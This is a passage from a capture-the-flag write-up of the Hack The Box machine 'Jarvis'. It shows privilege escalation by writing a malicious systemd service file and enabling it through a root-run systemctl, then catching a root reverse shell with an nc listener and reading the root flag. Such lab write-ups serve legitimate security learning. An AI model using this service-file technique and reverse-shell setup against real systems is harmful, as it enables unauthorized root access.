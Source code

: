 `systemctl` is used to turn Linux services on and off. The basic idea of exploitation is to create a new service (which is just a file, as you’ll see in a moment) and start it. Because `systemctl` is running as `root`, the service will be started as `root`.

_Note: I didn’t come up with this method myself; I found it on_ [_gtfobins_](https://gtfobins.github.io/gtfobins/systemctl/)_._

First, I created a service file using the following commands:

{% highlight bash %}
pepper@jarvis:~$ echo '[Service]' > yakuhito.service
pepper@jarvis:~$ echo 'Type=oneshot' >> yakuhito.service
pepper@jarvis:~$ echo 'ExecStart=/bin/bash /tmp/yakuhito.sh' >> yakuhito.service
pepper@jarvis:~$ echo '[Install]' >> yakuhito.service
pepper@jarvis:~$ echo 'WantedBy=multi-user.target' >> yakuhito.service

{% endhighlight %}

I reused the `/tmp/yakuhito.sh` script, because I was now controlling the box via an SSH session and port 444 wasn’t used anymore. The next step was to enable (or install) the service:

{% highlight bash %}
pepper@jarvis:~$ systemctl enable /home/pepper/yakuhito.service --now
Created symlink /etc/systemd/system/multi-user.target.wants/yakuhito.service → /home/pepper/yakuhito.service.
Created symlink /etc/systemd/system/yakuhito.service → /home/pepper/yakuhito.service.

{% endhighlight %}

The shell hung and a reverse shell connected on port 444.

{% highlight bash %}
root@fury-battlestation:~/htb/blog/jarvis# nc -nvlp 444
listening on [any] 444 ...
connect to [10.10.14.140] from (UNKNOWN) [10.10.10.143] 49288
python -c 'import pty; pty.spawn("/bin/bash")'
root@jarvis:/# whoami && id && hostname
whoami && id && hostname
root
uid=0(root) gid=0(root) groups=0(root)
jarvis
root@jarvis:/# wc /root/root.txt
wc /root/root.txt
 1  1 33 /root/root.txt
root@jarvis:/# 

{% endhighlight %}

Again, I will not put the entire flag here, but I will tell you that it starts with `d4` 😉

If you liked this post and want to support me, please [follow me on Twitter](https://twitter.com/yakuh1t0) 🙂

Until next time, hack the world.

yakuhito, over.

